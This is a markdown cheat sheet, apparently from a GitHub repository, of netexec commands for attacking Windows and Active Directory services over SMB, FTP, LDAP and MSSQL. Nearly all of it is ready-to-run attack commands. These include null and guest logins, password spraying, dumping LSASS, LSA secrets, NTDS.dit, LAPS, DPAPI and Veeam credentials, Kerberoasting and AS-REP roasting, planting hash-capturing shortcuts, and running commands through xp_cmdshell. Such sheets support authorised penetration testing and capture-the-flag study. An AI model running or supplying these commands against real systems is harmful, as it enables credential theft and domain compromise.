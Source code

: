 ```yaml
---
title: netexec
tags:
- networking
- active-directory
---
```

## netexec
<!-- TOC --><a name="smb"></a>
### smb

#### initial enumeration
```sh
netexec smb target
```
#### null authentication
```sh
netexec smb target -u '' -p ''
```
#### guest authentication
```sh
netexec smb target -u 'guest' -p ''
```
#### list shares
```sh
netexec smb target -u '' -p '' --shares
```
```sh
netexec smb target -u username -p password --shares
```
#### list usernames
```sh
netexec smb target -u '' -p '' --users
```
```sh
netexec smb target -u '' -p '' --rid-brute
```
```sh
netexec smb target -u username -p password --users
```
#### local authentication
```sh
netexec smb target -u username -p password --local-auth
```
#### using kerberos
```sh
netexec smb target -u username -p password -k
```
#### password spray
```sh
netexec smb target -u users.txt -p password --continue-on-success
```
```sh
netexec smb target -u usernames.txt -p passwords.txt --no-bruteforce --continue-on-success
```
```sh
netexec ssh target -u username -p password --continue-on-success
```
#### all in one
```sh
netexec smb target -u username -p password --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
```
#### spider_plus module
```sh
netexec smb target -u username -p password -M spider_plus
```
```sh
netexec smb target -u username -p password -k --get-file target_file output_file --share sharename
```
#### dump a specific file
```sh
netexec smb target -u username -p password -k --get-file target_file output_file --share sharename
```
#### dump lsa secrets
```sh
netexec smb target -u username -p password --local-auth --lsa
```
#### group policy preferences
```sh
netexec smb target -u username -p password -M gpp_password
```
#### dump laps v1 and v2 password
```sh
netexec smb target -u username -p password --laps
```
#### dump dpapi credentials
```sh
netexec smb target -u username -p password --laps --dpapi
```
#### dump ntds.dit
```sh
netexec smb target -u username -p password --ntds
```
#### webdav - checks whether the webclient service is running on the target
```sh
netexec smb ip -u username -p password -M webdav 
```
#### veeam - extracts credentials from local veeam sql database
```sh
netexec smb target -u username -p password -M veeam
```
#### slinky - creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions
```sh
netexec smb ip -u username -p password -M slinky 
```
#### ntdsutil - dump ntds with ntdsutil
```sh
netexec smb ip -u username -p password -M ntdsutil
```
#### dump lsass
```sh
netexec smb target -u username -p password -M lsassy
```
#### retrieve msol account password
```sh
netexec smb target -u username -p password -M msol
```
<!-- TOC --><a name="ftp"></a>
### ftp
#### list folders and files
```sh
netexec ftp target -u username -p password --ls
```
#### list files inside a folder
```sh
netexec ftp target -u username -p password --ls folder_name
```
#### retrieve a specific file
```sh
netexec ftp target -u username -p password --ls folder_name --get file_name
```
<!-- TOC --><a name="ldap"></a>
### ldap
#### enumerate users using ldap
```sh
netexec ldap target -u '' -p '' --users
```
#### all in one
```sh
netexec ldap target -u username -p password --trusted-for-delegation  --password-not-required --admin-count --users --groups
```
#### kerberoast
```sh
netexec ldap target -u username -p password --kerberoasting kerb.txt
```
#### asreproast
```sh
netexec ldap target -u username -p password --asreproast asrep.txt
```
#### gmsa
```sh
netexec ldap target -u username -p password --gmsa-convert-id id
```
```sh
netexec ldap domain -u username -p password --gmsa-decrypt-lsa gmsa_account
```
#### check the machine account quota
```sh
netexec ldap target -u username -p password -M maq
```
#### adcs enumeration
```sh
netexec ldap target -u username -p password -M adcs
```
<!-- TOC --><a name="bloodhound"></a>
### bloodhound
```sh
netexec ldap target -u username -p password --bloodhound -ns ip --collection All
```
<!-- TOC --><a name="mssql"></a>
### mssql
- authentication
```sh
netexec mssql target -u username -p password
```
#### execute commands using xp_cmdshell
```sh
netexec mssql target -u username -p password -x command_to_execute
```
> -X for powershell and -x for cmd
#### get a file
```sh
netexec mssql target -u username -p password --get-file output_file target_file
```
source: https://github.com/seriotonctf/cme-nxc-cheat-sheet
